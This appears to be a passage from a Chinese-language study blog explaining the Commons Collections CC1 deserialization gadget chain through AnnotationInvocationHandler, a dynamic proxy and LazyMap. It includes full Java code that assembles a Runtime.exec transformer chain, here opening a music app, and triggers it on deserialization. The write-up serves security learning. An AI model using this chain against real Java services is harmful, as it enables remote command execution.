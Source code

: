 我们要找从readobject方法走到LazyMap的get方法的调用流程，但是未找到readObject方法直接调用它

然后我们发现AnnotationInvocationHandler的invoke方法调用了get方法

![image-20250218144625646](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218144625775.png)

且memberValues可控，在构造函数里被赋值

![image-20250218144658629](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218144658712.png)

AnnotationInvocationHandler的readObject方法里调用了memeberValues的entryset()方法

![image-20250218152844772](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218152844906.png)

初始化一个AnnotationInvocationHandler对象，利用代理类，创建一个map代理实例，在readObject中，走到memeberValues的entryset()方法时，会触发代理机制，进入invoke方法，在初始化时，把memberValues赋值为LazyMap，走到LazyMap.get方法，从而执行命令

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open /Applications/NeteaseMusic.app"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap<Object, Object> map = new HashMap<>();
Map<Object, Object> decorate = LazyMap.decorate(map, chainedTransformer);
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

Constructor constructor = c.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, decorate);
Map newMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
Object o = constructor.newInstance(Target.class, newMap);
serialize(o);
unserialize("ser.bin");
```

![image-20250218154940022](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218154940156.png)

Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);//创建了一个实现了 `Map` 接口的代理对象。动态代理可以在运行时创建对象，并且拦截对该对象的所有方法调用。

AnnotationInvocationHandler的readObject方法中执行了memberValues.entrySet()，memberValues被赋值为LazyMap（调用了map对象的方法）从而触发了invoke方法

